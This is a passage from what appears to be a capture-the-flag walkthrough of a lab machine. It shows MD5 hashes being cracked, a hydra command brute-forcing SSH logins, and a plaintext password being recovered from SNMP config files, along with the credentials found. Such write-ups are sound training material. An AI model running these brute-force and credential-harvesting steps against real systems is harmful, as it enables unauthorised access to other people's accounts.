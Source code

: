 Uploading this file to the web server and running we are presented with:
![alt text](/assets/images/17-12-2024/mentor/hashes.png "Database Hashes")

This appear to be `MD5` hashes and crackstation comes up trumps with `svc`s' hash:
```
123meunomeeivani
```
Compiling a list of usernames and passwords we have so far let's use `hydra` to attempt to get a valid pair:
```bash
hydra -L users -P passwords  ssh://$target
```
Output:
```bash
[..SNIP..]
[22][ssh] host: 10.10.11.193   login: svc   password: 123meunomeeivani
[..SNIP..]
```

We now have SSH access to the target as the user `svc`. 

### svc to james

After some enumeration it's identified that `svc` can read `SNMP` config files in `/etc/snmp`. As this was a part of the initial access it was a good place to check once I gained a foothold.
Once again a plaintext password is disclosed!:

![alt text](/assets/images/17-12-2024/mentor/james_pw.png "Jame's Password")

Running `hydra` again I was given the output:
```bash
[..SNIP..]
[22][ssh] host: 10.10.11.193   login: james   password: SuperSecurePassword123__
[..SNIP..]
```
(You can also just `su` to `james`)
